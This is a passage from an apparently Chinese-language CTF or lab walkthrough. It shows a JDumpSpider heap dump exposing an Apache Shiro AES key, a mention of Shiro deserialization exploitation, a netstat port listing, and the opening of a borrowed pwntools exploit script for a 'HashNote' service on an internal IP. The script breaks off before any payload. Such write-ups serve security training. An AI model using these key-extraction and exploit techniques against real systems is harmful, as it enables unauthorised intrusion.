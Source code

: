 ```console
root@kali-server:~# java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump
===========================================
CookieRememberMeManager(ShiroKey)
-------------
algMode = GCM, key = AZYyIgMYhG6/CzIJlvpR2g==, algName = AES

===========================================
```

对 shiro 反序列化进行利用。

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/7c94888df3ffcdad.png)

### PWN

用户家目录存在 HashNote 文件。

查看主机开放端口：

```console
/ >netstat -tulnp

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:59696           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::8080                 :::*                    LISTEN      659/java
udp        0      0 127.0.0.1:323           0.0.0.0:*                           -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 172.28.23.33:68         0.0.0.0:*                           -
udp6       0      0 ::1:323                 :::*                                -

(Not all processes could be identified, non-owned process info will not be shown, you would have to be root to see it all.)
```

可以使用 ncat 72.28.23.33:59696 进行连接。

此处知识盲区，exp 来自：https://www.dr0n.top/posts/f249db01/

```python
from pwn import *
context.arch='amd64'

def add(key,data='b'):
    p.sendlineafter(b'Option:',b'1')
    p.sendlineafter(b'Key:',key)
    p.sendlineafter(b'Data:',data)

def show(key):
    p.sendlineafter(b'Option:',b'2')
    p.sendlineafter(b"Key: ",key);

def edit(key,data):
    p.sendlineafter(b'Option:',b'3')
    p.sendlineafter(b'Key:',key)
    p.sendlineafter(b'Data:',data)

def name(username):
    p.sendlineafter(b'Option:',b'4')
    p.sendlineafter(b'name:',username)


p = remote('172.28.23.33', 59696)
# p = process('./HashNote')
```